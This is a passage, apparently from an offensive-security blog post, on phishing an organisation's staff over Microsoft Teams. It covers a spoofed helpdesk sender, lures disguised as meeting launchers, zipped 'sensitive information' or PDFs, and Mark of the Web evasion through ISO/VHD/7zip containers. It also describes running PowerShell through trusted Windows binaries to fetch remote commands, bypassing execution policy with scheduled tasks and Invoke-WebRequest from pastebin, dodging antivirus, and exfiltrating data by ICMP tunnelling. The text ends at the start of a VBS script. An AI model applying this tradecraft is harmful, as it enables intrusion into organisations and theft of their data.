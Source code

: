 ```REDACTED@REDACTED.onmicrosoft.com``` ( create something that blends more with the org that you are trying to infiltrate :] like Helpdesk ICT with a similar domain), the cost of this procedure is 1$.
Sending the script directly as a .lnk or .ps1/.vbs and tamper the file extension on teams is a possibility, but the user can detect it easily looking at what he is effectively downloading + MOTW alerts.

I then discovered while digging into stack overflow that browsers like Chrome have implemented security features for .lnk files adding the .DOWNLOAD extension and preventing the direct execution if not renamed.

```
if (IsShellIntegratedExtension(extension))  extension = kDefaultExtension; //<--"download" 
```

where `IsShellIntegratedExtension` returns true for `lnk` extensions:

```
if ((extension_lower == FILE_PATH_LITERAL("local")) ||    (extension_lower == FILE_PATH_LITERAL("lnk")))  return true; 
```


The delivery of the payload encounter two obstacles that can prevent the user from falling into the trap: the first one is MOTW (mark of the web) that prevent the user from executing the file by raising a suspicious smart-screen blue pop-up that re-asks the user if he really wants to open the file.
To bypass this we can use ISO/VHD containers or 7zip files (default options in the 7zip applications have MOTW disabled for the childs inside the archive) that once extracted won't have the MOTW.
If we are in a C2 situation we can nest the powershell commands under trusted utilities/applications like SyncAppvPublishingServer.exe or conhost.exe to download and run commands remotely, find more [here](https://lolbas-project.github.io/lolbas/Binaries/Syncappvpublishingserver/) (this can trigger EDR).

![EDR trigger](/images/EDR_trigge.png)

The second one would be the Execution Policies of Powershell, as Default that should have the value of "remote signed". During the testing phase this policy didnt prevent the execution of the script on WIN10, as it was a normal ping command, but they did on WIN11 and you can encounter more blocks if you try to execute different commands.
Fortunately to bypass execution policy we have scheduled tasks that can be used with the Invoke-WebRequest to call commands directly from pastebin.

Do not try to convert directly the vbs script to exe as AV/EDR will detect it very easily the only way is to create a custom wrapper that allows the execution of the code.

Possible file ideas to trick the user:
- meeting launcher
- sensitive information inside a zip protected with password
- receipts or financial data disguised as PDFs

###### Data Exfiltration

The data exfiltration technique used was ICMP Tunneling and the whole idea of the ping length was taken from [Rocco Sicilia](https://roccosicilia.com/2023/04/27/icmp-infostealing-il-lab-prima-parte/) work.
This kind of script was done because on windows we can't insert messages directly into the ping command as it is on Linux.

```
Dim ip
ip = ""

